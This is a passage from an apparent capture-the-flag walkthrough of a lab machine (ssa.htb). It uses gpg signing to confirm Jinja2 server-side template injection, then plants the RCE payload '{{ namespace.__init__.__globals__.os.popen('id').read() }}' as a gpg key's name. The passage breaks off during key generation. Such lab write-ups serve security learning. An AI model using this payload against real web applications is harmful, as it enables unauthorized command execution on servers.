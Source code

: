 Because I have two secret keys in my keyring, I’ll need to specify which one to sign with with `--local-user`:

```

oxdf@hacky$ gpg --clearsign -o- --local-user ssti@ssa.htb test.msg
-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA512

this is a test message for the SSA
-----BEGIN PGP SIGNATURE-----

iQHBBAEBCgArFiEEnzmdX3i3xjOXe7ifXSnjOG9U/VIFAmVTtB0NHHNzdGlAc3Nh
Lmh0YgAKCRBdKeM4b1T9UopSDACfYDhKZ+7tVUCFYf8Nb4W8++h09Sri4RHVSNfK
NBA9OLeyJYswY8ILpBz6dxYJ/ytHFotXYz1LxKP1VHAHVJn7hWsl+sJSQtTKJcsr
IXO2j2zijg16oSuzMq7q6uTO61BIFSGELHr6Dl+p67SWiIDqwxTPN76JOJmRECq6
+Idc9z3xggius+tCMkB3b2spUNMwdDG0mClAKRN7Be4Lwo/yRq5kgktBLRmP27yY
ShmU/1UbpYKhHK1iCywgLQnd+sGDpeV92uTbbRp8fPy4/3KJ5qW14pFhouuCjC/V
3jgb+B0t4r4Yr2taxnC95vreVzwlErLaSMV+tvEwGSwBBJL6wpxldg+5VYwFUj+9
TwCmxGeoeAydgEZTRCa60wjuGQeIvDPooWSt13zDAM6dWruog+xCitJ+QpDbR4+1
gTa7kRufKAlHUqFhU2GoapSYTZJhs4vI6gqkNCP0oSVxmx0X5cubiURRcn7CC1h3
OEgazofaQ+XmEQ2lNy7UM04MCEU=
=0Qam
-----END PGP SIGNATURE-----

```

I’ll get the new public key (`gpg --export -a ssti@ssa.htb`) and put them both into the demo form. There are several “49” strings in the popup!

![image-20231114125629361](/img/image-20231114125629361.png)

It looks like any time I had `{{ }}` it is handled as code, which suggests the Flask default template engine, Jinja2.

### RCE

To test for code execution, I’ll grab a payload from further down on the [HackTricks SSTI page](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python):

```

{{ namespace.__init__.__globals__.os.popen('id').read() }}

```

The steps here are not too complex:
1. `gpg --gen-key` to make a new key, with that payload as the username, and the email being something new I can remember (so like `rce-id@ssa.htb` for this one that runs `id`).

   ```

   oxdf@hacky$ gpg --gen-key                                                                            
   gpg (GnuPG) 2.2.27; Copyright (C) 2021 Free Software Foundation, Inc.
   This is free software: you are free to change and redistribute it.
   There is NO WARRANTY, to the extent permitted by law.           
                                                                          
   Note: Use "gpg --full-generate-key" for a full featured key generation dialog.
                                                                          
   GnuPG needs to construct a user ID to identify your key.        
                                                                          
   Real name: {{ namespace.__init__.__globals__.os.popen('id').read() }}
   Email address: rce-id@ssa.htb                                   
   You selected this USER-ID:                                      
       "{{ namespace.__init__.__globals__.os.popen('id').read() }} <rce-id@ssa.htb>"
                                                                          
   ```